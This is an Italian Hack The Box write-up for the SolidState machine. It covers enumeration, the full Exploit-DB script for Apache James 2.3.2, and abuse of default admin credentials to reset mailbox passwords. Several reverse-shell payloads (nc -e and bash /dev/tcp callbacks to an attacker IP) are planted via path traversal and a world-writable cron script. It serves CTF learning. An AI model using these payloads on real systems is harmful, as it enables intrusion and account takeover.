

**Target: 10.10.10.51**

# INFORMATION GATHERING

Lanciamo un primo scan con  [Nmap](../../Note/Tool/Nmap.md)
```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nmap -sC -sV -O 10.10.10.51 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-30 10:10 EDT
Nmap scan report for 10.10.10.51
Host is up (0.053s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.43 [10.10.14.43])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=6/30%OT=22%CT=1%CU=34687%PV=Y%DS=2%DC=I%G=Y%TM=649EE2F
OS:4%P=x86_64-pc-linux-gnu)SEQ(CI=I)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=I%TS=8
OS:)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS(O1=M53CST11NW7%O2=M53C
OS:ST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1
OS:=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=N)ECN(R=Y%DF=Y%T=40%
OS:W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=N)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q
OS:=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T4(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%TG=40%
OS:W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:7(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)U1(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=N)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 168.63 seconds
```

lanciamo anche un scan anche su tutte le porte, per essere sicuri di aver coperto ogni possibilità 

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nmap -sC -sV -O -p- --min-rate 5000 10.10.10.51 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-30 10:14 EDT
Nmap scan report for 10.10.10.51
Host is up (0.041s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.43 [10.10.14.43])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open james-admin JAMES Remote Admin 2.3.2
| fingerprint-strings:
|   GenericLines:
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94%I=7%D=6/30%Time=649EE371%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nPl
SF:ease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPasswo
SF:rd:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=6/30%OT=22%CT=1%CU=38147%PV=Y%DS=2%DC=I%G=Y%TM=649EE47
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=108%GCD=2%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS(O1=M53CST11NW7%O2=M53CST11
OS:NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=712
OS:0%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53
OS:CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(
OS:R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 289.86 seconds
```

Quindi come sempre facciamo il punto della situazione, abbiamo 6 porte aprte:

- **Port 22:** running OpenSSH 7.4p1
- **Port 25:** running JAMES smtpd 2.3.2
- **Port 80:** running httpd 2.4.25
- **Port 110:** running JAMES pop3d 2.3.2
- **Port 119:** running JAMES nntpd
- **Port 4555:** running JAMES Remote Admin 2.3.2

Prima di passare all'enumerazione, prendiamo alcune note mentali sui risultati della scansione nmap.

La versione di OpenSSH in esecuzione sulla porta 22 non è associata ad alcuna vulnerabilità critica, quindi è improbabile che otteniamo l'accesso iniziale attraverso questa porta, a meno che non troviamo le credenziali.
Ports 80 esegue un server Web, quindi eseguiremo le nostre tecniche di enumerazione standard su di esso.

Le porte 25, 110, 119 e 4555 eseguono Apache James. Apache James è un agente di trasferimento di posta SMTP e POP3 open source e un server di notizie NNTP. La porta 4555 attira immediatamente la mia attenzione poiché è uno strumento di amministrazione remota. Avremo bisogno di eseguire searchsploit su di esso per verificare se è associato a vulnerabilità critiche

# ENUMERATION

## Port: 80

Visitiamo http://10.10.10.51 e ci troviamo di fronte ad un sitoweb:


recuperiamo anche un 'indirizzo email


webadmin@solid-state-security.com

Proviamo a proseguire l'enumerazione con [Gobuster](../../Note/Tool/Gobuster.md) 

```bash
===============================================================  
Gobuster v3.0.1  
by OJ Reeves ([@TheColonial](http://twitter.com/TheColonial)) & Christian Mehlmauer ([@_FireFart_](http://twitter.com/_FireFart_))  
===============================================================  
[+] Url: [http://10.10.10.51](http://10.10.10.51/)  
[+] Threads: 10  
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  
[+] Status codes: 200,204,301,302,307,401,403  
[+] User Agent: gobuster/3.0.1  
[+] Timeout: 10s  
===============================================================  
2019/12/29 17:31:19 Starting gobuster  
===============================================================  
/images (Status: 301)  
/assets (Status: 301)  
/server-status (Status: 403)  
===============================================================  
2019/12/29 17:56:46 Finished  
===============================================================
```

Niente di utile, quindi passiamo all'enumerazione della porta 4555.

## Port: 4555

Cerchiamo con searchsploit

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# searchsploit  Apache James Server 2.3.2
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title|  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)| linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution | linux/remote/35513.py
Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2) | linux/remote/50347.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploiting Apache James Server 2.3.2 | docs/english/40123-exploiting-ap
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------
```

Perfetto, sembrerebbe che abbiamo trovato quello che fa al caso nostro 
Scarichiamo e vediamo di cosa si tratta

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# searchsploit  -m 35513.py
  Exploit: Apache James Server 2.3.2 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/35513
     Path: /usr/share/exploitdb/exploits/linux/remote/35513.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/solidstate/35513.py


┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# cat 35513.py
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."
```


Dopo aver esaminato la sceneggiatura, ho preso alcune note:
1. Questo è un exploit che ha bisogno di credenziali. L'exploit utilizza le credenziali predefinite root/root che sono probabilmente fornite con il software. Dovremo connetterci al server per scoprire se queste credenziali sono valide prima di eseguire questo exploit.

2. Quando eseguiamo l'exploit dobbiamo passare l'indirizzo IP come argomento. Lo script per impostazione predefinita si connette alla porta 4555, il che è positivo poiché il nostro server è in esecuzione su quella porta.

3. Lo script crea prima un utente con nome utente "../../../../../../../../etc/bash_completion.d" e password "exploit". Quindi si connette al server SMTP e invia a quell'utente un payload. Fin dall'inizio, questo non ha molto senso, quindi dovremo ricercare la vulnerabilità. Dopo un po' di ricerca scopriamo che la vulnerabilità è nella funzionalità adduser. Quando viene aggiunto un nuovo utente, il server crea una nuova sottodirectory per archiviare le e-mail in entrata e in uscita per quell'utente. Tuttavia, il campo del nome utente non è correttamente convalidato. Pertanto, quando creiamo un utente con il nome utente "../../../../../../../../etc/bash_completion.d", qualsiasi messaggio inviato a quell'utente verrà memorizzato in quel percorso di directory. 
 
 Perché è pericoloso? Per farla breve, qualsiasi cosa nella directory /etc/bash_completion.d viene caricata automaticamente da Bash per tutti gli utenti! Per ulteriori informazioni sugli script di completamento bash, fare riferimento a questo [articolo](https://iridakos.com/programming/2018/03/01/bash-programmable-completion-tutorial). Pertanto, se creiamo un utente con un nome utente che conduce alla directory /etc/bash_completion.d, quando inviamo un'e-mail a quell'utente, la nostra e-mail viene salvata nella directory bash_completion.d e il contenuto della nostra e-mail viene caricato automaticamente da Bash quando qualsiasi utente accede alla macchina. Quindi, se includiamo una shell inversa nell'e-mail, tutto ciò che dobbiamo fare è attendere che un singolo utente acceda e abbiamo accesso alla macchina!


Ora che abbiamo svolto le nostre ricerche, siamo pronti per passare alla fase di sfruttamento.

# GAINING AN INITIAL FOOTHOLD

Per prima cosa verifichiamo se le credenziali di default root:root funzionano 

```bahs
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands

```

Perfetto le credenziali sono valide, vediamo che comandi possiamo eseguire 

```bash
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit    
```

ora il comando `listusers` ci permette di vedere la lista degli account esistenti 

```bahs
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Abbiamo 5 account attivi, Poiché si tratta di un account amministratore, possiamo resettare la password di ogni utente e quindi accedere al tutti gli account.

Vediamo come come fare 

```bash
setpassword -h
Usage: setpassword [username] [password]
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
setpassword mailadmin password
Password for mailadmin reset
```

Perfetto abbiamo cambiato la password di ogni utente.
Ora possiamo connetterci tramite telnet per controllare le email di ogni account

James, Thomas e John non hanno email. Mindy, d'altra parte, ha due e-mail memorizzate nel suo account.

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
USER mindy
+OK
PASS password
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security.

Respectfully,
James
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

La prima email è stata inutile ma la seconda email ci fornisce le credenziali SSH! Facciamo SSH nell'account di Mindy.

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ED25519 key fingerprint is SHA256:rC5LxqIPhybBFae7BXE/MWyG4ylXjaZJn6z2/1+GmJg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ED25519) to the list of known hosts.
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
```

Siamo dentro! Tuttavia, sembriamo essere in una shell bash ristretta (rbash). Una shell limitata è una shell che limita un utente bloccando/limitando alcuni dei comandi. Ecco perché il comando "whoami" non ha funzionato per noi.


I comandi "ls" e "cat" funzionano, quindi possiamo almeno visualizzare il flag user.txt.

```bash
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
9d9b795dfb275aa997cbe198f10a0997
mindy@solidstate:~$
```

Comunque posso aggirare le restrizioni della shell rbash modificando il comando ssh come segue:

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh mindy@10.10.10.51 -t bash
mindy@10.10.10.51's password:
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$

```

-t bash  farà eseguirà bash su connect invece della shell assegnata. (anche se produce un prompt rotto), e ora possiamo  eseguire id e cd:

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh mindy@10.10.10.51 -t bash
mindy@10.10.10.51's password:
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```

## Exploit Manuale

Proviamo ad eseguire l'exploit in maniera manuale.

Riprendiamo la proof of concept dell'exploit...

Vedendo cosa fa lo script, proverò a farlo manualmente con nc e telnet. 
Innanzitutto, creiamo un utente:

```bash
root@kali# nc 10.10.10.51 4555 
JAMES Remote Administration Tool 2.3.2 Please enter your login and password 
Login id: root 
Password: root Welcome root. HELP for a list of commands 
adduser ../../../../../../../../etc/bash_completion.d password 
User ../../../../../../../../etc/bash_completion.d added quit Bye
```

Ora, invierò a quell'utente un'e-mail con una shell inversa, con telnet connettendomi a SMTP 25:
Per inviare una mail con telnet possiamo vedere questo [articolo](https://learn.microsoft.com/en-us/exchange/mail-flow/test-smtp-telnet?view=exchserver-2019)

```bash

┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
EHLO xRabbit
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 3 Jul 2023 15:44:47 -0400 (EDT)
250-solidstate Hello xRabbit (10.10.14.9 [10.10.14.9])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'xrabbit@gmail.com>
250 2.1.0 Sender <'xrabbit@gmail.com> OK
DATA
503 5.5.0 No recipients specified
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: xrabbit@gmail.com
'
/bin/nc -e /bin/bash 10.10.14.9 1234
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.
```

comunque piccolo recap dei comandi 

- `EHLO` : Logga un utente 
- `MAIL FORM `: Mittente della mail
- `RCPT` : Destinatario della mail
- `DATA` :  Testo della mail

Questo crea un file in /etc/bash_completion.d che contiene la mia shell inversa. Quindi la prossima volta che un utente accede, otterrò una shell come quell'utente. È importante aggiungere ' all'inizio della prima intestazione, MAIL FROM. Quindi lo chiudo 'appena prima del mio carico utile. Successivamente, quando questo file viene eseguito da bash, tutte quelle righe verranno raggruppate in un comando interrotto, che fallirà e continuerà. Senza il ', ci sono righe che andranno in crash e interromperanno lo script prima che la shell inversa possa essere eseguita.

Ora ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 1234
listening on [any] 1234 ...
```

per trigerare l'exploit ci colleghiamo tramite ssh con l'account mindy

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# ssh mindy@10.10.10.51
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
```

Otteniamo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.51] 51496
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```

facciamo un upgrade della shell

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd ..
cd ..
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$ ls
ls
james  mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$
```

## Exploit Automatico 

Proviamo ad sfruttare l'exploit 35513.py

Prima di tutto modifichiamo l'exploit con la inserendo la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# cat 35513.py

...<snip>...

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
#payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
payload = 'nc -e /bin/bash 10.10.14.9 4321 &'
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

...<snip>...

```

Ora lanciamo l'exploit 

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# python2 35513.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

Ci mettiamo in ascolto con nc sulla porta indicata nella shell

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 4321
listening on [any] 4321 ...

```

Non ci resta che loggarci tramite ssh con l'account mindy 

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# ssh mindy@10.10.10.51
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
...<spin>...

```

Otteniamo cosi la shell

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 4321
listening on [any] 4321 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.51] 37808
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```

# PRIVESC

Ci scarichiamo pspy sulla macchina targert 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ wget http://10.10.14.9:8000/pspy32
--2023-07-03 16:30:02--  http://10.10.14.9:8000/pspy32
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy32’

pspy64                                                     100%[=======================================================================================================================================>]   2.96M  1.04MB/s    in 2.9s

2023-07-03 16:30:05 (1.04 MB/s) - ‘pspy32’ saved [3104768/3104768]
```

Gli diamo i permessi di esecuzione, ed eseguiamo 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ chmod +x pspy32
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ./pspy32
```

Ci saltano all'occhio questi processi che vengono eseguiti ogni 3 minuti.

```bash
2023/07/03 16:42:01 CMD: UID=0     PID=13309  | /usr/sbin/CRON -f
2023/07/03 16:42:01 CMD: UID=0     PID=13310  | /usr/sbin/CRON -f
2023/07/03 16:42:01 CMD: UID=0     PID=13311  | /bin/sh -c python /opt/tmp.py
2023/07/03 16:42:02 CMD: UID=0     PID=13312  | sh -c rm -r /tmp/*
2023/07/03 16:42:02 CMD: UID=0     PID=13313  | rm -r /tmp/*
```

Andiamo a vedere cosa contiene 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

Vediamo se abbiamo i permessi di scrittura se cosi fosse possiamo modificare il file ed inserire una revshell. Ed una volta che il file verrà eseguito dal cronjob verrà eseguito come root e avremmo la nostra shell da root 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la tmp.py
-rwxrwxrwx 1 root root 105 Aug 22  2017 tmp.py
```

Perfetto inseriamo la nostra revshell

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.9/9443 0>&1"')
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

ci mettiamo in ascolto con nc ed aspettiamo che il cronjob venga eseguito

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 9443
listening on [any] 9443 ...
